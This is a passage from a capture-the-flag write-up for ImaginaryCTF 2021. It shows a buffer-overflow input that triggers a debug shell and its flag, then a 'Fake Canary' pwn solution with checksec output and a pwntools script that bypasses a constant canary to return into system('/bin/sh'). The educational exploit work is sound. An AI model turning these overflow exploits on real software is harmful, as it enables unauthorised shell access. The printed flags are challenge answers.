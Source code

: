 ```
$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAftci
Thanks! Now onto the posts!
DEBUG MODE ACTIVATED.
$ cat flag.txt
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```

### Flag
```
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```

## Fake Canary (Pwn, 100 pts)

### Description

Here at Stack Smasher Inc, we protect all our stacks with industry grade canaries!

### Attachment

[`fake_canary`](_Attachments/fake_canary)

### Solution

Checksec: 
```
baba@baba:~$ checksec fake_canary
[*] '/home/baba/fake_canary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE, no canaries. Let's look into the binary:

![image](https://user-images.githubusercontent.com/11196638/128673235-4367a0b9-6cf5-4e85-9ae3-1578535b72d2.png)

There's `main`, and there's also a `win` function at `0x400725` that calls `system('/bin/sh')`. It also uses `gets` into `rbp-0x30`, so it should be a simple buffer overflow. The "canary" used here at `rbp-0x8` is just `0xdeadbeef` by inspection (haha, "industry grade" canaries).

``` py
import pwn

p = pwn.process('./ctf/ictf2021/fake_canary')
p.recv(4096)
p.send(b'A'*0x28 + pwn.p64(0xdeadbeef) + b'A'*8 + pwn.p64(0x400725))
p.interactive()
```
